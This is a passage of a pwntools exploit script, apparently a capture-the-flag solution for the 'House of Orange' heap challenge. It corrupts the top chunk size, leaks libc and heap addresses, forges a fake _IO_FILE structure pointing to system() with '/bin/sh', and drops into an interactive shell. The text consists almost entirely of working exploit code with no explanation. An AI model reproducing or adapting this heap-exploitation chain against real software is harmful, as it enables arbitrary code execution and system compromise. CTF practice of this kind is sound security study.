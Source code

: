 ```php
    r.sendlineafter('Name :',con)
    r.sendlineafter('Price of Orange:','1')
    r.sendlineafter('Color of Orange:','1')

def edit(size,con):
    cho(3)
    r.sendlineafter("Length of name :",str(size))  
    r.sendlineafter("Name:",con)
    r.sendlineafter("Price of Orange: ",'1')
    r.sendlineafter("Color of Orange: ",'1')  

def show():
    cho(2)

##free_top_chunk
add(0x30,'nameless')
pd = 'a'*0x30 + p64(0) + p64(0x21) +'a'*16+ p64(0)+ p64(0xf80)
edit(len(pd)+1,pd)
add(0x1000,'nameless')

##leak_libc
add(0x400,'nameles')
show()
r.recvuntil("Name of house : ")
r.recvuntil('nameles\n')
libcbase=u64(r.recv(6).ljust(8,'\x00'))-0x3a4948-(libc.sym['__libc_start_main']+240)

##set lib_functions
_IO_list_all=libcbase+libc.sym['_IO_list_all']
system=libcbase+libc.sym['system']

##leak_heap
edit(0x400,'nameless'+'nameles')
show()
r.recvuntil("Name of house : ")
r.recvuntil('nameles\n')
heap=u64(r.recv(6).ljust(8,'\x00'))-0xe0
log.success('libcbase:'+hex(libcbase))
log.success('heap:'+hex(heap))

##fsop
pd='a'*0x400
pd+=p64(0)+p64(0x21)+p64(0x0000001f00000001)+p64(0)
fake_io='/bin/sh\x00'+p64(0x60)+p64(0)+p64(_IO_list_all-0x10)
fake_io+=p64(0)+p64(1)
fake_io=fake_io.ljust(0xc0,'\x00')
pd+=fake_io
pd+=p64(0)*3
pd+=p64(heap+0x5e8)
pd+=p64(0)*2+p64(system)
edit(0x800,pd)
##z()
cho(1)
r.interactive()
```